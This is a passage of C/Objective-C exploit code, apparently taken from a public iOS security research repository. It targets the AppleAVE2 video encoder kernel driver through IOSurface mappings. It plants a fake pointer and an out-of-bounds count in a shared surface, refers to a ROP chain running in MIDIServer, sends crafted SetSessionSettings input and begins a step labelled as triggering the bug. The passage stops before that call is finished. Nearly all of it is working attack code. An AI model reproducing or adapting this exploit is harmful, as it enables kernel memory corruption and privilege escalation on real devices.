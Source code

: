 ```
    // Address & size of the shared mapping created by IOSurface and
    // returned in the output struct at offsets 0x0 and 0x1c respectively
    uint64_t surface_map_addr = 0x0;
    uint32_t surface_map_size = 0x0;
    uint32_t surface_id = IOSurfaceRootUserClient_CreateSurface(surface_ioconn, &surface_map_addr, &surface_map_size);
    NSLog(@"Got Surface ID: %d", surface_id);

    uintptr_t surface_data = malloc(surface_map_size);
    bzero((void *)surface_data, surface_map_size);

    *(uint64_t *)(surface_data + 0x0) = 0x4141414142424242;     // First pointer to memory containing function pointer
                                                                // This field is the start of the block adjacent to the stats array
    *(uint32_t *)(surface_data + 0x3420) = 6;                   // `memoryInfoCnt2` field, gives 1 OOB access

    // Sends the data to MIDIServer to be written onto the IOSurface
    // The MIDIServer ROP chain hangs on the following call:
    // vm_read_overwrite(ourtask, clientbuf, surface1_map_size, surface1_map_addr, ...)
    send_overwriting_iosurface_map(surface_data, surface_map_size, surface_map_addr);

    // Waits for a message back from MIDIServer, sent by the ROP chain
    // Notifies us that the vm_read_overwrite call completed  
    reply_notify_completion();

    free(surface_data);

    {
        // Write the OOB count value to the `currentClient` object, and write our adjacent data

        char setSessionSettings_inputStruct[0x108] = { 0 };
        char setSessionSettings_outputStruct[0x4] = { 0 };
        size_t setSessionSettings_outputStruct_size = sizeof(setSessionSettings_outputStruct);

        *(uint32_t *)(setSessionSettings_inputStruct + 0x04) = surface_id; // FrameQueueSurfaceId
        *(uint32_t *)(setSessionSettings_inputStruct + 0x08) = surface_id; // InitInfoSurfaceId, vulnerable IOSurface mapping 
        *(uint32_t *)(setSessionSettings_inputStruct + 0x0c) = surface_id; // ParameterSetsBuffer
        *(uint32_t *)(setSessionSettings_inputStruct + 0xd0) = surface_id; // codedHeaderCSID & codedHeaderBuffer [0]
        *(uint32_t *)(setSessionSettings_inputStruct + 0xd4) = surface_id; // codedHeaderCSID & codedHeaderBuffer [1]

        // AppleAVE2UserClient::_SetSessionSettings 
        ret = IOConnectCallStructMethod(ioconn, 
                                        7, 
                                        setSessionSettings_inputStruct, 
                                        sizeof(setSessionSettings_inputStruct), 
                                        setSessionSettings_outputStruct, 
                                        &setSessionSettings_outputStruct_size);
        NSLog(@"SetSessionSettings: %x %s", ret, mach_error_string(ret));
    }

    {
        // Trigger the bug 

        char close_inputStruct[0x4] = { 0 };
        char close_outputStruct[0x4] = { 0 };
        size_t close_outputStruct_size = sizeof(close_outputStruct);

        // AppleAVE2UserClient::_my_close 
```
